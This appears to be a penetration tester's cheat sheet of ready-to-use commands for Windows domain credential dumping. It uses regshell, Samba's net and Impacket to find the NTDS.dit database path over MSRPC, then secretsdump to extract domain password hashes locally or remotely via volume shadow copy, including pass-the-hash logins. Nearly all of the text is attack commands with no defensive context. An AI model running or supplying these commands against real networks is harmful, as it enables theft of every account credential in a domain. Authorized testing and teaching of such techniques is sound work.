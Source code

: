 # Unix Shell

Search Tag(s): #post-exploitation #credential-access-and-dumping #network-protocols #msrpc #smb #staying-off-the-land #windows

## 01 - Enumerate Registry Files

### 1.1 - MSRPC Network Protocol

#### 1.1.1 - `regshell`

Authentication syntax.

```
$ regshell -U "[<domain>/]<username>%<password>" -R <IP>

$ regshell -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -R <IP>
```

Navigate to the subkey and `print` the information.

```
\> predef HKEY_LOCAL_MACHINE
\HKEY_LOCAL_MACHINE> ck SYSTEM\CurrentControlSet\Services\NTDS\Parameters
\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters> info

\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters> print "DSA Database file"
```

#### 1.1.2 - `net`

```
$ net <ads | rpc> registry getvalue "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" "DSA Database file" -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> registry getvalue "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" "DSA Database file" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

#### 1.1.3 - Impacket

```
$ reg.py "<username>":"<password>"@<IP> query -keyName "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters"
```

## 02 - Extract Shadow File

TODO: Demonstrate using smbclient to download hashes

```
$ secretsdump -system /path/to/SYSTEM -ntds /path/to/NTDS.dit local
```

```
$ secretsdump.py "[<domain>/]<username>":"<password>"@<IP> -use-vss

$ secretsdump.py "[<domain>/]<username>"@<IP> -hashes :<nt_hash> -use-vss
```

---
## References

- [Pentestlab: Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)